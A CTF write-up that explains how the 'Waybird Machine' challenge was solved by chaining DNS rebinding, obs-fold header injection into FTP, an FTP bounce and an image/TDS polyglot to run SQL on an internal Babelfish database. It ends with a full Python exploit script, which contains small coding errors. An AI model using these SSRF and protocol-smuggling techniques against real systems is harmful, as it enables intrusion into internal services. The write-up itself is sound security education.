



# DEFCON CTF QUALS 2026 - Waybird Machine

* This writeup was not written by me. Creds to @sebstr *

## TL;DR

The challenge required chaining multiple bugs and quirks to turn a limited file upload and a constrained SSRF into an arbitrary TCP SSRF, allowing us to send TCP packets (and SQL queries) to an internal Babelfish instance in order to retrieve the flag:

1. Chaining DNS rebinding, SSRF with obs-fold header injection, and a pyftpdlib parsing quirk allows cross-protocol SSRF to the internal FTP server.
2. Upload a polyglot file that passes image validation but is a valid TDS stream for Babelfish.
3. Exploit the FTP bounce to send the uploaded TDS stream to Babelfish, which will execute the embedded SQL and reveal the flag.

## AI usage

We used AI tools to script some parts of the exploit such as the DNS rebinder and the TGS/TGA polyglot builder.

## Application Architecture

Only nginx is exposed externally. Internally, the Flask application, the FTP server, and Babelfish database are reachable within the web container's network.

## Road to Flag

The flag is stored in the PostgreSQL database accessible via Babelfish. By default, it is hidden:

```sql
CREATE TABLE flags (
    flag varchar(255) NOT NULL,
    is_hidden bit NOT NULL DEFAULT 1
);

INSERT INTO flags (flag, is_hidden)
VALUES ('bbb{...}', 1);
```

Since the application's index page displays the flag only if `is_hidden = 0`, the objective is to execute the following query in some way:

```sql
UPDATE flags SET is_hidden=0;
```

## Overview

The challenge is minimal: there's only an endpoint `/scrape` that accepts a URL and a pair of credentials:

```py
@app.route("/scrape", methods=["POST"])
def scrape():
    url = request.form.get("url", "").strip()
    auth_user = request.form.get("username", "").strip()
    auth_pass = request.form.get("password", "").strip()
    # ...
    (safe_name, meta) = scraper.scrape(url, auth_user, auth_pass)
    # ...
    db.insert_image(url, safe_name, meta)
```

The application fetches the target URL and validates the content using ImageMagick `identify`:

```py
result = subprocess.run(["identify", "-format", "%w %h %m", "--", filepath], capture_output=True)
```

Here ImageMagick command/argument injection was not viable and coders/delegates paths were blocked by the policy:

```xml
<policy domain="delegate" rights="none" pattern="*"/>
<policy domain="filter" rights="none" pattern="*"/>
<policy domain="coder" rights="none" pattern="{URL,HTTPS,HTTP,FTP}"/>
<policy domain="coder" rights="none" pattern="{MVG,MSL,TEXT,LABEL,...}"/>
```

As we can see below, If the fetched resource is verified as a valid image format, it is saved under `/app/app/static/scraped/<uuid>.<ext>`, that is also the root directory for the internal FTP service: `python -m pyftpdlib -D --port 21 -w -d /app/app/static/scraped &`

```py
def scrape(url, auth_user, auth_pass):
    _validate_url(url)
    
    r = _fetch(url, auth_user, auth_pass)
    
    tmp = tempfile.NamedTemporaryFile(delete=False, dir=app.config["UPLOAD_FOLDER"], suffix=ext)
    
    try:
        # <download logic>
        meta = verify(tmp.name)
        if meta is None:
            raise ScrapeError("Image verification failed")

        ext = IMAGEMAGICK_FORMAT_TO_EXT.get(meta["format"].upper(), ext)
        safe_name = f"{uuid.uuid4().hex}{ext}"
        dest = os.path.join(app.config["UPLOAD_FOLDER"], safe_name)
        shutil.move(tmp.name, dest)

        meta["file_size"] = os.path.getsize(dest)
        return safe_name, meta
```

---

## Exploitation

### DNS Rebinding

Submitted URLs must use the HTTP or HTTPS scheme and cannot resolve to a private/internal address:

```py
def _validate_url(url):
    parsed = urlparse(url)
    if parsed.scheme not in ALLOWED_SCHEMES:
        raise ScrapeError(f"Unsupported URL scheme: {parsed.scheme}")
    hostname = parsed.hostname
    resolved = socket.getaddrinfo(hostname, None)
    
    for family, _, _, _, sockaddr in resolved:
        ip = ipaddress.ip_address(sockaddr[0])
        if isinstance(ip, ipaddress.IPv6Address) and ip.ipv4_mapped is not None:
            ip = ip.ipv4_mapped        
        for network in BLOCKED_NETWORKS: # BLOCKED_NETWORKS = [127.0.0.0/8, 10.0.0.0/8, 172.16.0.0/12, 192.168.0.0/16, 169.254.0.0/16]
            if ip in network:
                raise ScrapeError("Access to private/internal addresses is not allowed")
    
    return parsed
```

Because the hostname resolution in `_validate_url` is decoupled from the subsequent socket connection established by `_fetch`, we can use **DNS rebinding**.
By configuring a custom DNS server to return a public IP on the first resolution query, and resolving to `127.0.0.1` or `0.0.0.0` on subsequent requests, we bypass the validation step.

---

### Cross-protocol SSRF - HTTP -> FTP

The first suspicious behavior was the retry logic for 401 responses.

```py
def _fetch(url, auth_user, auth_pass):
    try:
        r = requests.get(url, allow_redirects=False)
        if r.status_code == 401:
            r.close()
            auth_header = r.headers.get("WWW-Authenticate", "").lower()
            if "basic" in auth_header:
                r = requests.get(url, auth=HTTPBasicAuth(auth_user, auth_pass), allow_redirects=False)
            elif "digest" in auth_header:
                r = requests.get(url, auth=HTTPDigestAuth(auth_user, auth_pass), allow_redirects=False)
            else:
                raise ScrapeError(f"Unsupported auth method {auth_header}")
        r.raise_for_status()
        return r
    # ... exception handling
```

We can force the `elif "digest" in auth_header:` code path by replying:

```http
HTTP/1.1 401 Unauthorized
WWW-Authenticate: Digest realm="any", nonce="random", qop="auth"
```

After that response, `requests` prepares a new request, computes the Digest auth value and adds the `Authorization` header to the request, as it's possible to see in `requests/src/requests/auth.py`:

```py
def handle_401(self, r: Response, **kwargs: Any) -> Response:
    # ...
    s_auth = r.headers.get("www-authenticate", "")

    if "digest" in s_auth.lower() and self._thread_local.num_401_calls < 2:
        # ...
        _digest_auth = self.build_digest_header(
            cast(str, prep.method), cast(str, prep.url)
        )
        if _digest_auth:
            prep.headers["Authorization"] = _digest_auth
        _r = r.connection.send(prep, **kwargs)
        _r.history.append(r)
        _r.request = prep

        return _r

```

This gives us an injection primitive. With `HTTPDigestAuth`, the header `Authorization` is built using the provided username, for example:

`Authorization: Digest username="<**injected_username**>", realm="x", nonce="abc", uri="/", response="4515ce82d0ad9763a4b868db13121595", qop="auth", nc=00000001, cnonce="7c2bc740bd8286f1"`

Though CRLF injection is blocked, so the question now is how to turn the request into valid FTP commands.

The HTTP/1.1 specification supports **obsolete line folding** (obs-fold) in request headers; a CRLF followed by at least one space or tab (`\r\n<space>` or `\r\n\t`) can be used to fold a an header value into multiple lines:

```http
GET / HTTP/1.1\r\n
Authorization: Digest username="username\r\n
\tUSER anonymous\r\n
\tPASS\r\n
\t...", realm="x", nonce="abc", uri="/", response="4515ce82d0ad9763a4b868db13121595", qop="auth", nc=00000001, cnonce="7c2bc740bd8286f1"\r\n
Connection: keep-alive\r\n
\r\n
```

This is a good starting point, we can inject FTP commands through the submitted username, but each injected command is **preceded by a tab or space** making each command line invalid.
So we need a way to get rid of the leading space.

#### pyftpdlib Buffering issues

pyftpdlib's control connection handler (`pyftpdlib/pyftpdlib/handlers/ftp/control.py`) inherits its line-reading behavior from asynchat (deprecated in favor of asyncio).
It buffers incoming socket data until a `\r\n` line terminator is encountered.

```py
def collect_incoming_data(self, data):
    self._in_buffer.append(data)
    self._in_buffer_len += len(data)
    buflimit = 2048
    if self._in_buffer_len > buflimit:
        self.respond_w_warning("500 Command too long.")
        self._in_buffer = []
        self._in_buffer_len = 0 # clear buffer
```

Crucially, when the buffer limit is reached, `pyftpdlib` **clears the internal buffer**, returns an error message, **maintains the connection**, and keeps reading data.

This behavior lets us **get rid of the leading space** by arranging the injected Digest username in the following way:

```text
<padding until the FTP parser overflows and clears its current line>
USER anonymous\r\n
\t<padding>
PASS\r\n
\t<padding>
...
```

`\t<padding>` clears the internal buffer, at the next read the buffer will contain a clean command.

#### Alignment of Socket Reads

Padding to `2048+1` bytes is not enough by itself. `handle_read()` reads at most `64KiB` from the socket and splits the data on `\r\n`:

```py
class async_chat(dispatcher):
    ac_in_buffer_size = 65536

    def handle_read(self):
        data = self.recv(self.ac_in_buffer_size)     # read from socket
        self.ac_in_buffer = self.ac_in_buffer + data

        while self.ac_in_buffer:
            terminator = self.get_terminator()
            index = self.ac_in_buffer.find(terminator)
            if index != -1:
                if index > 0:
                    self.collect_incoming_data(self.ac_in_buffer[:index]) # adds or clears internal buffer
                self.ac_in_buffer = self.ac_in_buffer[index + len(terminator):]
                self.found_terminator() # parse command from internal buffer
            else:
                self.collect_incoming_data(self.ac_in_buffer)
                self.ac_in_buffer = b""  # when no terminator is found, clear the buffer
```

That means each real FTP command has to start exactly at position 0 in the next data chunk, at offset `(chunk_n * 65536)` in the stream.

```text
Chunk 0 (64KiB): GET / HTTP/1.1\r\nHost: ...\r\nAuthorization: Digest username="[PADDING]
Chunk 1 (64KiB): USER anonymous\r\n\s[PADDING]
Chunk 2 (64KiB): PASS\r\n\s[PADDING]
```

> Note: this layout works only if `handle_read()` always reads exactly `64KiB` from the socket. Otherwise, FTP commands no longer land at the start of a chunk, and the stream breaks.

The username/ftp request that will be injected into the authorization header can be generated as follows:

```py
def ftp_payload():
    PREFIX = 'GET / HTTP/1.1\r\nHost: ...\r\nAuthorization: Digest username="'
    OBS = '\r\n '
    CHUNK_SIZE = 65536
    COMMANDS = ["USER anonymous", "PASS", ...]

    username = f"{'A'*(CHUNK_SIZE - len(PREFIX))}"

    for command in COMMANDS:
        padding_size = CHUNK_SIZE - len(command) - len(OBS)
        username += f"{command}{OBS}{'A' * padding_size}"
    return username
```

### FTP Bounce to TCP

FTP has two connection types:

- the control connection, where commands like `USER`, `PASS`, and `RETR` are sent.
- the **data connection** where file contents are transferred.

**FTP Bounce** enters the chat: in active mode, the client sends a `PORT` command to tell the FTP server where it should open the **data connection**.

With it, we can make the FTP server open a TCP connection to a chosen (local) host and port, then **send the bytes of an uploaded file over that connection**:

```text
USER anonymous
PASS
TYPE I
PORT 127,0,0,1,5,153  # h1.h2.h3.h4:(p1 * 256 + p2) = 127.0.0.1:1433
RETR <uploaded filename>
```

> Note: `TYPE I` switches FTP to binary mode. Without it, ASCII mode may corrupt the file binary stream.

As previously seen, we can upload files that must be valid images to pass the ImageMagick validation. To be able to talk to Babelfish, we need to craft an image that is also a valid TDS stream.

---

### Building the image/TDS Polyglot file

The uploaded file needs to satisfy:

- ImageMagick `identify` has to accept it as an image.
- Babelfish has to accept it as TDS traffic that eventually executes the SQL update.

##### TDS protocol

Babelfish speaks TDS, the same wire protocol used by MSSQL.

The communication happens in three phases:

```text
PRELOGIN --> LOGIN7 --> SQLBATCH
```

TDS packets have an 8-byte header:

```text
type | status | length | spid | packet_id | window
```

The first byte of the stream must therefore be a valid TDS packet type, for a login flow this is `0x12` (PRELOGIN).

So our polyglot starts with this TDS header:

```py
header = struct.pack("!BBHHBB", 0x12, 0x01, 281, 0x0000, 0, 0)

'''
0x12      PRELOGIN packet
0x01      end-of-message status
0x0119    packet length = 281 bytes
0x0000    spid
0x00      packet id
0x00      window
'''
```

##### TGA file

It turns out that the same bytes that start a TDS PRELOGIN packet are also accepted by ImageMagick as the beginning of a TGA header.
TGA fields are little-endian, so the first 18 bytes are interpreted roughly like this:

```text
raw bytes       = 12 01 01 19 00 00 00 00 00 00 0b 00 06 01 00 11 01 00
id length       = 0x12
color map type  = 1
image type      = 1
y origin        = 11
width           = 262
height          = 4352
bits per pixel  = 1
```

We only need to pad our payload to around 1.2 MB so the file has enough bytes for the dimensions ImageMagick thinks it saw:

```bash
identify -format '%w %h %m' -- stream.tds
262 4352 TGA
```

##### File layout

After the PRELOGIN, the file has to contain a LOGIN7 packet that uses the default Babelfish credentials:

```text
user     = babelfish_user
password = 12345678
database = birdarchive
```

This is followed by a TDS `SQL_BATCH` packet containing:

```sql
UPDATE flags SET is_hidden=0;
```

The final file layout is:

```text
TDS PRELOGIN packet    also parsed as the TGA header by ImageMagick
TDS LOGIN7 packet      authenticates to Babelfish
TDS SQL_BATCH packet   runs UPDATE flags SET is_hidden=0;
PADDING                until the file is large enough for ImageMagick
```

---

### Exploit synchronization

The exploit is not only about sending the right bytes. It also has to keep synced three independent parsers: requests throws `BadStatusLine` and terminates the control connection with the FTP service as soon as it reads the FTP banner as an HTTP response, so pyftpdlib and babelfish need to parse every command before this event.

#### 1. requests and pyftpd sync

After the DNS rebind, once requests opens the connection to the FTP service, pyftpdlib immediately sends the FTP banner on the control connection, but requests later tries to parse that banner as an HTTP response. Once it reaches `read()`, it throws `BadStatusLine` and closes the socket, which aborts the final FTP read before `RETR` is processed:



The FTP command stream must therefore be fully parsed before requests calls `read()`. To fix this issue we can **make the outgoing request large**. The injected username can be close to the default nginx body limit (around 10 MB), so while the client is still writing the huge Digest header, pyftpdlib has enough time to keep reading and parsing the commands.


#### 2. pyftpd and babelfish sync

The same kind of timing problem appears later, between pyftpdlib and Babelfish.

After `PORT`, `RETR` makes pyftpdlib open a data connection to Babelfish and write the TGA/TDS polyglot. Babelfish needs that data socket to stay alive long enough to receive and parse every TDS packet. If the control connection gets abrupted by requests while the transfer is still in progress, pyftpdlib closes the data channel and Babelfish only sees a part of the stream:



To fix this issue `QUIT` can be used. In pyftpdlib, a `QUIT` during an active transfer **closes only the control channel**, leaving the data channel open until the transfer completes. Once the control channel is already closed, **requests can no longer reset it**.

```py
def ftp_QUIT(self, line):
    """Quit the current session disconnecting the client."""
    # ...
    self.respond("221 ...")

    # If file transfer is in progress, the connection must remain
    # open for result response and the server will then close it.
    # We also stop responding to any further command.
    if self.data_channel:
        self._quit_pending = True
        self.del_channel() #! deletes **only the control channel**
    else:
        self._shutdown_connecting_dtp()
        self.close_when_done()
```

Exploit with corrected timings:



So the final FTP command stream would look like this:

```text
USER anonymous\r\n <padding>
PASS\r\n <padding>
TYPE I\r\n <padding>
PORT 127,0,0,1,5,153\r\n <padding>
RETR <filename>\r\n <padding>
QUIT\r\n <padding until ~10 MB>
```

## Final exploit

```py
#!/usr/bin/env python3
import argparse
import re
import secrets
import urllib.parse
from urllib.parse import urlencode
import requests

MAX_BODY = 10 * 1024 * 1024
CHUNK_SIZE = 65536
OBS_FOLD = "\r\n "


class FtpRequestBuilder:
    def __init__(self, rebinder) -> None:
        self.rebinder = rebinder

    def make_rebinder_url(self):
        host = f"{secrets.token_hex(8)}.{self.rebinder}"
        return f"http://{host}:21/"

    def digest_prefix(self, url):
        parsed = urllib.parse.urlparse(url)
        return (
            f"GET {parsed.path} HTTP/1.1\r\n"
            f"Host: {parsed.netloc}\r\n"
            "User-Agent: python-requests/2.34.2\r\n"
            "Accept-Encoding: gzip, deflate\r\n"
            "Accept: */*\r\n"
            "Connection: keep-alive\r\n"
            'Authorization: Digest username="'
        )

    def form_len(self, url, username):
        return len(urlencode({"url": url, "username": username, "password": "x"}).encode())

    def pad_to_body_limit(self, url, username):
        limit = MAX_BODY - 1000
        padding = limit - self.form_len(url, username)
        return username + "A" * padding

    def build_ftp_req(self, ftp_url, filename):
        prefix = self.digest_prefix(ftp_url)
        commands = [
            "USER anonymous",
            "PASS",
            "TYPE I",
            "PORT 127,0,0,1,5,153",
            f"RETR {filename}",
            "QUIT",
        ]

        username = "A" * (CHUNK_SIZE - len(prefix))

        for command in commands:
            padding_size = CHUNK_SIZE - len(command) - len(OBS_FOLD)
            username += f"{command}{OBS_FOLD}{'A' * padding_size}"

        return self.pad_to_body_limit(ftp_url, username)

    def build(self, filename):
        ftp_url = self.make_rebinder_url()
        username = self.build_ftp_req(ftp_url, filename)
        return ftp_url, username


class Exploit:
    def __init__(self, baseurl, tga_service, rebinder):
        self.baseurl = baseurl.rstrip("/")
        self.session = requests.Session()
        self.session.verify = False
        self.payload_builder = FtpRequestBuilder(rebinder)
        self.tga_service = tga_service

    def url(self, path):
        return urllib.parse.urljoin(self.baseurl + "/", path.lstrip("/"))

    def post(self, path, **kwargs):
        return self.session.post(self.url(path), **kwargs)

    def get(self, path, **kwargs):
        return self.session.get(self.url(path), **kwargs)

    def extract_uploaded_filename(self, html):
        matches = re.findall(r'/static/scraped/([^"]+\.tga)', html)
        return matches[0] if matches else None

    def run(self):
        # 1. Upload TGA
        response = self.post(
            "/scrape", data={"url": self.tga_service} # the app will download the tga file from our webserver
        )
        response.raise_for_status()
        html = response.text
        print("Uploaded TGA")

        # 2. Get TGA file name
        filename = self.extract_uploaded_filename(html)
        assert filename
        print("TGA filename", filename)

        # 3. Exploit
        print("Starting the exploit")
        ftp_url, username = self.payload_builder.build(filename)

        try:
            body = {"url": ftp_url, "username": username, "password": "x"}
            body_len = len(urlencode(body).encode())
            assert body_len < MAX_BODY
            response = self.post("/scrape", data=body, timeout=10, allow_redirects=False)
            print("exploit request status", response.status_code)
            return
        except Exception as _:
            pass

        # Read flag
        html = self.get("/").text
        flag = re.findall(r"bbb\{[^}]+\}", html)
        if flag:
            print("Got flag!", flag[-1])
        else:
            print("Exploit failed")


def parse_args():
    parser = argparse.ArgumentParser()
    parser.add_argument("target")
    parser.add_argument("tga-service", description="Webserver hosting the tga file")
    parser.add_argument("rebinder")
    return parser.parse_args()


if __name__ == "__main__":
    args = parse_args()
    Exploit(args.target, args.tga_service, args.rebinder).run()
```

## Flag

`bbb{w1ngsp4n_is_ab0ut_c0ll3ct1ng_b1rd_sh4ped_fri3nds:w3V3Pczw2ze90uEuNEfdrX4YNBTWJ73dlZk1rBCYqOlIfkZQXiSD-Ao_yG_GC-MjWz_bv4_We5uBlxZEvtw9SYXoxzo}`
